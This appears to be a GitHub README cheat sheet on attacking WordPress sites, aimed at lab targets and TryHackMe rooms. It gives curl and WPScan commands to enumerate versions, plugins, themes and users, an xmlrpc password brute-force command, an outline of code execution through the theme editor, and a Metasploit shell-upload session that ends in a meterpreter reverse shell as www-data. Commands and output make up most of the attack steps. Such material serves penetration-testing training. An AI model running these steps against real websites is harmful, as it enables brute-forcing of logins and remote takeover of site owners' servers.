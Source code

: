#          🔥Hacking-Wordpress 🔥
![wordpress-hacking](https://user-images.githubusercontent.com/79256105/165776319-f7d73fb8-6bd9-4847-97da-461b641fbfe0.png)

# 🥇Enumeration Procedure For Wordpress Website in Manually

### Wordpress Version Check

Check Wordpress Version using given below curl command or seeing source code

    commnad:
            curl -s -X GET http://blog.inlanefreight.com | grep '<meta name="generator"'
        
 Also check WP Version - CSS and WP Version - JS version from Source Code 
 
### ▶️ Plugins and Themes Enumeration

Commnad For Plugins: 
      
      curl -s -X GET http://blog.inlanefreight.com | sed 's/href=/\n/g' | sed 's/src=/\n/g' | grep 'wp-content/plugins/*' | cut -d"'" -f2
 
Command For Themmes:
      
      curl -s -X GET http://blog.inlanefreight.com | sed 's/href=/\n/g' | sed 's/src=/\n/g' | grep 'themes' | cut -d"'" -f2
      
    
#### ⏩ User Enumeration
Enumerating a list of valid users is a critical phase of a WordPress security assessment. Armed with this list, we may be able to guess default credentials or perform a brute force password attack. If successful, we may be able to log in to the WordPress backend as an author or even as an administrator. This access can potentially be leveraged to modify the WordPress website or even interact with the underlying web server.

Command :
        
        curl http://blog.inlanefreight.com/wp-json/wp/v2/users
         
         
 
# ⤵️Enumeration Procedure For Wordpress Website in Automatically Using wpscan
WPScan is an automated WordPress scanner and enumeration tool. It determines if the various themes and plugins used by a WordPress site are outdated or vulnerable. It is installed by default on Parrot OS ,Kali OS but can also be installed manually with gem
         gem install wpscan
Once the installation completes, we can issue a command such as wpscan --hh to verify the installation. This command will show us the usage menu with all of the available command-line switches available.
### 🔥Enumerating a Website with WPScan ⚛️
The --enumerate flag is used to enumerate various components of the WordPress application such as plugins, themes, and users. By default, WPScan enumerates vulnerable plugins, themes, users, media, and backups. However, specific arguments can be supplied to restrict enumeration to specific components. For example, all plugins can be enumerated using the arguments --enumerate ap. Let's run a normal enumeration scan against a WordPress website.
Command :

            wpscan --url http://blog.inlanefreight.com --enumerate --api-token api-token-value
Example :
 
            wpscan --url http://10.129.2.37/ --enumerate --api-token cs0QRHwsYE6RvLd6SaHDhI1dmNX8ZVLEx0Fb7mNid9s
            
      
##### 👀Note: Api Token Generator Link https://wpscan.com/


# ✔️ Exploiting a Vulnerable Plugin
If we are checking and testing properly of our target wordpress website and if  target wordpress website is vulneable we will see some CVE or Exploite information after using above wpscan command
### ☑️WordPress User Bruteforce
WPScan can be used to brute force usernames and passwords. The tool uses two kinds of login brute force attacks, xmlrpc and wp-login. The wp-login method will attempt to brute force the normal WordPress login page, while the xmlrpc method uses the WordPress API to make login attempts through /xmlrpc.php. The xmlrpc method is preferred as it is faster.

Command :
          
          wpscan --password-attack xmlrpc -t 20 -U admin, david -P passwords.txt --url http://blog.inlanefreight.com
          
#### 👁️Note: use username and password in http://sitename/login path
          
# 🔥Remote Code Execution (RCE) via the Theme Editor 🔥

With administrative access to WordPress, we can modify the PHP source code to execute system commands. To perform this attack, log in to WordPress with the administrator credentials, which should redirect us to the admin panel. Click on Appearance on the side panel and select Theme Editor. This page will allow us to edit the PHP source code directly. We should select an inactive theme in order to avoid corrupting the main theme.

# 🔥Attacking WordPress with Metasploit 🔥
We can use the Metasploit Framework (MSF) to obtain a reverse shell on the target automatically. This requires valid credentials for an account that has sufficient rights to create files on the webserver.
###### To obtain the reverse shell, we can use the wp_admin_shell_upload module. We can easily search for it inside MSF:

        msf5 > search wp_admin

###### Matching Modules

0  exploit/unix/webapp/wp_admin_shell_upload  2015-02-21       excellent  Yes    WordPress Admin Shell Upload
###### Module Selection:
msf5 > use 0

msf5 exploit(unix/webapp/wp_admin_shell_upload) >

###### Module Options
                  
        msf5 exploit(unix/webapp/wp_admin_shell_upload) > options

##### Module options (exploit/unix/webapp/wp_admin_shell_upload):


       PASSWORD                    yes       The WordPress password to authenticate with
       Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
       RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
       RPORT      80               yes       The target port (TCP)
       SSL        false            no        Negotiate SSL/TLS for outgoing connections
       TARGETURI  /                yes       The base path to the wordpress application
       USERNAME                    yes       The WordPress username to authenticate with
       VHOST                       no        HTTP server virtual host


Exploit target:

       Id  Name
       --  ----
       0   WordPress
    
#### set and Exploitation
   
    msf5 exploit(unix/webapp/wp_admin_shell_upload) > set rhosts blog.inlanefreight.com
    msf5 exploit(unix/webapp/wp_admin_shell_upload) > set username admin
    msf5 exploit(unix/webapp/wp_admin_shell_upload) > set password Winter2020
    msf5 exploit(unix/webapp/wp_admin_shell_upload) > set lhost 10.10.16.8
    msf5 exploit(unix/webapp/wp_admin_shell_upload) > run

meterpreter > getuid
Server username: www—data (33)
## 🙏Practicing Sites:
                  https://tryhackme.com/room/allinonemj
                  https://tryhackme.com/room/wordpresscve202129447
## 💠 Happy Hackings 🔡

